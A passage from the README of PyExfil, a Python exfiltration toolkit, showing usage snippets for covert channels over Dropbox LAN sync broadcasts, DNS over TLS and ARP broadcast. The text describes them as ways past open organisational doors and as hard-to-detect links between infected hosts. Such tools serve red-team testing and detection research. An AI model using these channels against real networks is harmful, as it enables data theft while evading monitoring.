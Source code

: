 ```bash
Starting listener for 10.0.0.2.
10.0.0.255@DB_LSP > send hello
184 bytes sent to ('10.0.0.255', 17500).
10.0.0.255@DB_LSP >
```

Please notice that the `listener` is the IP from which you're expecting to get the message. This is so that when you get a broadcast you know which one to decode and understand. `active` will point to which IP address to send the UDP packets. Use a `.255` address for broadcast or a specific IP for unicast.

Constant Sniff and Decode :
```python
SniffAndDecode(key="123456", host="OtherIP", port=17500)
```

Broadcast a message:
```python
obj = DB_LSP(key="123456", data="Hello World", host="192.168.0.255", port=17500)
obj.Send()
```

#### DNS Over TLS

DNS over TLS is as it sounds. As more and more services start supporting DNS over TLS and it seems like many organizations keep that door open as it this protocol provides superior protection over plain-text DNS we thought this might be an interesting opportunity.

```python
# For Client:
from pyexfil.Comm.DNSoTLS.client import Send

Send(data="Hal, please open the door.", server='1.1.1.1', port=DNS_OVER_TLS_PORT, certCheck=CHECK_CERT)


# Server:
from pyexfil.Comm.DNSoTLS.server import StartServer

StartServer(server_name=LOCAL_HOST, port=DNS_OVER_TLS_PORT, clients=MAX_CLIENTS, certfile=CERT_FILE, keep_ratio=True)
```

#### ARP Broadcast
This method is using ARP to broadcast messages over the LAN so that someone listening cannot locate who is listening on this channel. Obviously ARP would not be relayed outside the LAN, however, as a mesh network inside the LAN with broadcast functionality it should be as close an possible to impossible to detect and then identify infected hosts.

```python
# Broadcast:
from PyExfil.pyexfil.Comm.ARPBroadcast.communicator import broadcast

broadcast(message="This is a late parrot!", key=PYEXFIL_DEFAULT_PASSWORD)


# Listener:
import thread
from PyExfil.pyexfil.Comm.ARPBroadcast.communicator import Broker

b = Broker(key=PYEXFIL_DEFAULT_PASSWORD, retFunc=testCallBack)
thread.start_new_thread(b.listen_clients, ())
```
